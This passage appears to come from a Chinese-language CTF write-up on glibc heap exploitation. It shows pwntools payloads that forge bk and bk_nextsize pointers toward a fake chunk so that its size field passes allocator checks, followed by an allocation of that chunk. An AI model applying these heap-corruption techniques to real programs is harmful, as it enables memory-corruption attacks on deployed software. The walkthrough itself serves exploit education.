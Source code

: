 ```plain
payload=p64(0)+p64(fake_chunk)
edit(3,payload)
```

chunk3\_bk-->fake\_chunk  
[![](assets/1701612337-dbd4760cd02b5f9c75a546eb01ee6f8c.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230708173057-24de393a-1d72-1.png)

```plain
payload=p64(0)+p64(fake_chunk+0x8)+p64(0)+p64(fake_chunk-0x18-5)
edit(1,payload)
```

chunk1\_bk-->fake\_chunk+8  
chunk1\_bk\_nextsize-->fake\_chunk-0x18-5

这里 chunk1\_bk\_nextsize-->fake\_chunk-0x18-5 是为了后面 fake\_chunk 的 size 为 0x56，这样 P 位就是 0，可以通过检查了 (堆地址通常是 0x55 或者 0x56 开头，只有当 0x56 开头的时候才能绕过检查)

[![](assets/1701612337-3dccd5bcadf550183abd068e5b8a33e6.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230708173117-3066ab0c-1d72-1.png)

```plain
add(0x48) #9
```

这里 size 正好能够绕过检查，所以能够申请下来

[![](assets/1701612337-e0c0069608dfe3ce6d0efc9c2997652e.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230708173129-37dbeff0-1d72-1.png)
